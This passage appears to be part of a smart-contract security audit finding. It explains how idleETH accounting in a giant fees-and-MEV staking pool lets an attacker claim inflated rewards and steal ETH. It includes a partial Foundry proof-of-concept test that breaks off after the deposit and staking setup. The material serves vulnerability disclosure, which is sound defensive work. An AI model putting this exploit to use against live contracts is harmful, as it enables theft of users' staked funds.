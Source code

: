     return address(this).balance + totalClaimed - idleETH;

The function totalRewardsReceived is used as the current rewards balance to caculate the unprocessed rewards in the function `SyndicateRewardsProcessor._updateAccumulatedETHPerLP`

    uint256 received = totalRewardsReceived();
    uint256 unprocessed = received - totalETHSeen;

The idleETH will be decreased in the function `batchDepositETHForStaking` for sending eth to the staking pool. But the idleETH wont be increased in the function `bringUnusedETHBackIntoGiantPool` which is used to burn lp tokens in the staking pool, and the staking pool will send the eth back to the giant pool. And then because of the diminution of the idleETH, the `accumulatedETHPerLPShare` is added out of thin air. So the attacker can steal more eth from the GiantMevAndFeesPool.

### Proof of Concept

test:<br>
test/foundry/TakeFromGiantPools.t.sol

    pragma solidity ^0.8.13;

    // SPDX-License-Identifier: MIT

    import "forge-std/console.sol";
    import {GiantPoolTests} from "./GiantPools.t.sol";
    import { LPToken } from "../../contracts/liquid-staking/LPToken.sol";

    contract TakeFromGiantPools is GiantPoolTests {
        function testDWclaimRewards() public{
            address nodeRunner = accountOne; vm.deal(nodeRunner, 12 ether);
            address feesAndMevUserOne = accountTwo; vm.deal(feesAndMevUserOne, 4 ether);
            address feesAndMevUserTwo = accountThree; vm.deal(feesAndMevUserTwo, 4 ether);

            // Register BLS key
            registerSingleBLSPubKey(nodeRunner, blsPubKeyOne, accountFour);

            // Deposit ETH into giant fees and mev
            vm.startPrank(feesAndMevUserOne);
            giantFeesAndMevPool.depositETH{value: 4 ether}(4 ether);
            vm.stopPrank();
            vm.startPrank(feesAndMevUserTwo);
            giantFeesAndMevPool.depositETH{value: 4 ether}(4 ether);

            bytes[][] memory blsKeysForVaults = new bytes[][](1);
            blsKeysForVaults[0] = getBytesArrayFromBytes(blsPubKeyOne);

            uint256[][] memory stakeAmountsForVaults = new uint256[][](1);
            stakeAmountsForVaults[0] = getUint256ArrayFromValues(4 ether);
            giantFeesAndMevPool.batchDepositETHForStaking(
                getAddressArrayFromValues(address(manager.stakingFundsVault())),
                getUint256ArrayFromValues(4 ether),
                blsKeysForVaults,
                stakeAmountsForVaults
            );
            vm.warp(block.timestamp+31 minutes);
            LPToken[] memory tokens = new LPToken[](1);
            tokens[0] = manager.stakingFundsVault().lpTokenForKnot(blsPubKeyOne);
